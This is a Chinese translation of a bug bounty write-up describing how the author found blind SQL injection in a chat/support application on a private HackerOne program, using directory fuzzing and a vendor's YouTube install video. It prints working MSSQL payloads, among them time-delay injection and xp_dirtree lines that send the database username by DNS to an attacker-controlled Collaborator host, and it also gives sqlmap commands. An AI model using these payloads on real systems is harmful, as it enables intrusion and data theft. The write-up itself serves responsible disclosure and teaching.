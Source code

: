 # 一个 YouTube 视频如何通过 SQL 注入导致价值 4324 美元奖金网络应用程序

> 原文：<https://infosecwriteups.com/how-a-youtube-video-lead-to-pwning-a-web-application-via-sql-injection-worth-4324-bounty-285f0a9b9f6c?source=collection_archive---------1----------------------->

这篇文章是关于我在 HackerOne 上的一个私人项目中的一个发现。因为这是一个私人项目，所以我做了一些编辑以防止任何敏感信息的泄露。这是我第一次写文章，所以请忽略错误。

所以当我被邀请在 HackerOne 上破解这个私人程序时，我做了一些基本的侦察，包括子域枚举。在使用一些开源工具如 AMASS 等收集子域名后，我开始逐个查看。在这个过程中，我偶然发现了一个域名，假设它是`**chat.example.com**`。登录页面提供默认的 IIS 服务器登录页面。

![](img/e343694e9b31755b8182f2cb79ad0222.png)

在遇到默认网页后，总有可能会出现一些内容，所以我继续使用我的自定义单词表，通过目录强制对资产进行内容发现。我使用了`**ffuf**`来模糊网络服务器的根目录`/`，结果我只得到一个目录，假设它是`**/vendor-name**`。在`**https://chat.example.com/vendorname/**` 访问应用程序，给出 403 禁止错误

![](img/8d52e3c728c894d6acefba8a40fb9df8.png)

在遇到错误时，我模糊了`**/vendor-name**`目录，这引导我到另一个成功的目录，假设它是`**/software-name**`，这也给出了一个 403 禁止错误。Fuzzing `**/vendor-name/software-name/**` endpoint 给出了多个类似`**/bin,/scripts,/logs,/styles**`的结果，但没有什么有趣的。看起来非常有趣，但是在这些端点上运行单词列表模糊化并没有产生任何有趣的结果。我尝试了各种扩展`**html,aspx,ashx,asp,bak,log**`，但没有一个工作，它看起来像一个死胡同。

![](img/90e9f73ca134c52ce8772869a132d46d.png)

唐纳德·詹纳蒂在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

然后我继续用谷歌搜索前两个目录的名字，因为它们看起来像是`**/vendor-name/software-name**`，所以我用谷歌搜索了`**Vendor-Name Software-Name**`，我得到了一些关于安装在服务器上的软件的结果和信息。这是一个付费聊天/支持软件。之后我在 GitHub 等网站上搜索。用于应用程序的目录结构，但没有可用的内容。在浏览了多个结果后，我发现了一个供应商制作的 **YouTube** 视频，该视频解释了如何安装和配置该应用程序。**由于这是一个关于软件的演示，讲师正在演示配置各种配置文件的方法，因此在视频中，讲师打开了安装服务器的文件夹，当他深入到软件的目录中时，我能够将我的发现与软件的目录结构对应起来。最后，在复制粘贴各种目录/文件并从视频中创建单词表后，我在视频的帮助下找到了一些表格，其中一个是** `**https://chat.example.com/vendor-name/software-name/directory1/vulnerableform.html**`。

![](img/e31e59266a00dd15c73d606cd850b341.png)

在填写完详细信息并点击`**Send**` 之后，在发送数据之前，发出了一个类似于`**https://chat.example.com/vendor-name/software-name/_randomfiles.aspx?_param1=1&_returnURL=%2Fexample.html**` 的预先获取请求。这看起来很有趣，所以我尝试查看请求和响应。响应包含一个指向`**_returnURL**`中提到的路径的 HTML 重定向，所以我试图在`**_returnURL**` 中给出`**https://evil.com**`，响应包含一个指向`**https://evil.com**`的 HTML 重定向，但是像往常一样**打开重定向**在**范围之外**。我试图在 URL 中插入`**javascript:alert(1)**`,但是它被正确编码了。在此之后，我尝试查看 SQL 注入漏洞的另一个参数，更改其值对响应没有影响，因此基于错误的 SQLI 是不可能的，所以我想对该参数尝试一些基本的**盲** **SQLI** 有效负载。在尝试了一些有条件的**盲** **SQLI** 有效载荷以引起一些反应差异或一些错误并且失败后，我试图注入一些**盲** **SQLI** 有效载荷以触发时间延迟。由于它是一台微软服务器，因此后端数据库很可能是支持批处理查询的微软 SQL Server，我尝试使用参数上最基本的有效负载(即`**waitfor delay'0:0:20'--**` )的无条件时间延迟来引起一些响应延迟，令我惊讶的是，注入成功了，响应延迟了 20 秒。有多种方法可以利用盲目的 SQL 注入，如触发条件响应和带外利用。最常见的方法是让应用程序触发我们控制的系统的带外交互。最常见的方法是使用 DNS(域名服务)协议，因为几乎每个组织都允许传出 DNS 查询，这种情况也是如此。

![](img/bafab55e35d397ed725be32667618980.png)

从那以后，一切都是关于谷歌搜索的东西。起初，为了确认漏洞，我使用了 **"xp_dirtree"** 一个存储过程，它将尝试列出其第一个参数中给定的目录或网络共享的内容。如果列表是一个网络共享，它将为它做一个 **DNS 查找**，如果我们得到一个回调，我们可以确认 **OOB** 提取数据是可能的。

**PingBack 有效载荷**

`**;declare @q varchar(99);set @q=’\\[YOU_BURP_COLLAB_SUBDOMAIN_PART_HERE].burpcollab’+’orator.net\ogy’; exec master.dbo.xp_dirtree @q; —**`

![](img/d84f9544180836b24e454a7267ba3db7.png)

**用户名提取有效负载**

`**;declare @q varchar(99);set @q=’\\[YOU_BURP_COLLAB_SUBDOMAIN_PART_HERE]’+(SELECT user_name())+’.burpcollab’+’orator.net\ogy’; exec master.dbo.xp_dirtree @q; —**`

![](img/8b9865f5bcb0a8d7927641837f9d7d3d.png)

但是，手动提取的字符数量是有限的。如果查询结果小于 253，包括 burp collaborator 域，那么只有数据提取是可能的，但这足以对报告进行分类，但为了进一步利用，我使用了 **SQLMAP** ，它可以轻松地在我们的 **POC** 中提供我们想要的数据。

1.  **注射确认**

`**python3 sqlmap.py -u https://chat.example.com/vendorname/softwarename/_randomfiles.aspx?param1=1**`

![](img/3d7f5dbcd4a6b6423f91e8332b973ca2.png)

2.**获取数据库**

`**python3 sqlmap.py -u https://chat.example.com/vendorname/softwarename/_randomfiles.aspx?param1=1 — dbs**`

![](img/7726fa0101c18b4f4080cbdd3b31bd53.png)

在此之后，我创建了包含所有信息的报告，并将其提交给该程序，在 HackerOne Triager 可以验证该发现之前，该资产已被该程序移除以进行缓解，但 HackerOne Triager 与该程序确认了这一点，并以`**Critical [9.3]**` 严重性对报告进行了分类。缓解后，应用程序启动并安全运行。

漏洞解决后，我被程序奖励了 4324 美元的赏金:)

![](img/df8dad224cb053e3e20c560d96fca410.png)

如果你觉得这个博客很有趣，请分享它，如果你有任何问题，可以在推特上发短信给我，号码是 https://twitter.com/k4k4r07。感谢阅读:)